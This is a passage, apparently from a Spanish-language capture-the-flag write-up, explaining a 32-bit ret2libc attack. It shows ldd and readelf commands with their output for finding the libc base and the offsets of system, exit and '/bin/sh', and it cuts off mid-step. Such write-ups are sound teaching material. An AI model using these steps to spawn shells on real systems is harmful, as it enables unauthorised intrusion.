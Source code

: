 1. system_addr
1. exit_addr
1. bin_sh_addr

ret2libc -> system_addr + exit_addr + bin_sh_addr.

Solo falta conocer las direcciones de estas funcciones. Como la maquina es de architectura 32 bits, podemos intentar colision con las direcciones.
De que se trata exactamente; En condiciones normales (donde el ASLR no esta activado), sumariamos los diferentes ofsets de las funcciones 
```bash
 system 
```
, 

```bash
 exit 
```
 y 
```bash
 /bin/sh 
```
 a la direccion de la libreria 
```bash
 libc 
```
. Estas direcciones se encuentran de la manera siguiente.

1. la direccion de libreria libc

    ```bash
    ldd rop
    ldd rop | grep libc
    ldd rop | grep libc | awk 'NF{print $NF}'
    ldd rop | grep libc | awk 'NF{print $NF}' | tr -d '()'

    #Output
    0xb771f000
    ```

1. los offsets del system_addr y del exit

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system@@ | exit@@"
    
    #Output
     141: 0002e9d0 31 FUNC GLOBAL DEFAULT 13 exit@@GLIBC_2.0
    1457: 0003ada0 31 FUNC WEAK   DEFAULT 13 system@@GLIBC_2.0
    ```

    Aqui el *0003ada0* y el *0002e9d0* son los offset que tendriamos que sumar a la direccion de la libreria libc

1. el offset de la cadena 
```bash
 /bin/sh 
```
